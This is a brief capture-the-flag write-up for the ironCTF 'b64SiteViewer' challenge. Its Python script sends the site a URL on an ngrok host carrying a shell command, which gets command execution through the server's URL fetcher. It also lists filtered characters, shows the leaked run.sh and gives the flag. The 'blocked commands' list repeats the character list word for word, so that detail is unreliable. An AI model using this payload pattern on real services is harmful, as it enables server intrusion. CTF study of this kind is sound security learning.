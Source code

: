 # b64SiteViewer

Solved by: @vicevirus

## Question:

Hey everyone, check out my new Base64 site viewer! The admin believes he's invincible.Do you have what it takes to outsmart him?
Flag Format: ironCTF{alphanumeric\_lowercase}

## Solutions:
- The goal is to run `/usr/local/bin/flag`

```python
import requests
import base64

url = 'https://b64siteviewer.1nf1n1ty.team/'

cmd = 'ls'
payload = {
    'url': f'http://0.tcp.ap.ngrok.io:port/?cmd={cmd}'
}

response = requests.post(url, data=payload)

b64_encoded_content = response.text.split("base64 version of the site:")[1].strip().split("\n")[0].strip("b'").strip("'")
decoded_content = base64.b64decode(b64_encoded_content).decode('utf-8')

print("Decoded content:\n", decoded_content)
```

These are the blocked characters: `['"', '$', "'", '.', '/', '`', '|']`

These are the blocked commands: `['"', '$', "'", '.', '/', '`', '|']`

Final:
```
head *

==> run.sh <==
#!/bin/bash
export flag="ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}"
cd /home/user
python -m app
```
![ironctf-4](ironctf-4.jpg)

**Flag:** `ironCTF{y0u4r3r0ck1n6k33ph4ck1n6}`


